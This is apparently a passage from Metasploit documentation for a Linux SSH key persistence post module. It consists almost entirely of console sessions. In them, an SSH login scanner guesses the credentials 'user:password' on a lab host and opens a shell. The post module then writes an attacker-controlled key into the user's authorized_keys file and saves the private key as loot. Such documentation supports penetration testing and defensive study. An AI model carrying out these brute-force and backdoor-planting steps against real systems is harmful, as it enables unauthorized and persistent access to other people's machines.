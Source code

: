     msf post(sshkey_persistence) > exploit

    [*] Checking SSH Permissions
    [+] Pubkey set to yes
    [*] Authorized Keys File: .ssh/authorized_keys
    [*] Added: /root/.ssh
    [*] Attempting to create ssh folders that don't exist
    [+] /root/.ssh
    [*] Creating /root/.ssh folder
    [-] No users found with a .ssh directory
    [*] Post module execution completed

### CentOS 6 (user level)
ssh keys must be enabled in sshd_config.

Get Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set username user
    username => user
    msf auxiliary(ssh_login) > set password password
    password => password
    msf auxiliary(ssh_login) > set rhosts 192.168.4.62
    rhosts => 192.168.4.62
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'user:password' 'uid=500(user) gid=500(user) groups=500(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux localhost.localdomain 2.6.32-71.el6.x86_64 #1 SMP Fri May 20 03:51:51 BST 2011 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:39289 -> 192.168.4.62:22) at 2016-06-19 15:27:27 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set session 1
    session => 1
    msf post(sshkey_persistence) > set verbose true
    verbose => true
    msf post(sshkey_persistence) > set user user
    user => user
    msf post(sshkey_persistence) > exploit
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [*] Added User SSH Path: /home/user/.ssh
    [*] Attempting to create ssh folders that don't exist
    [+] Storing new private key as /root/.msf4/loot/20160619152757_default_192.168.4.62_id_rsa_633695.txt
    [*] Creating /home/user/.ssh/authorized_keys
    [*] Max line length is 65537
    [*] Writing 380 bytes in 1 chunks of 1447 bytes (octal-encoded), using printf
    [+] Key Added
    [!] No active DB -- Credential data will not be saved!
    [*] Post module execution completed
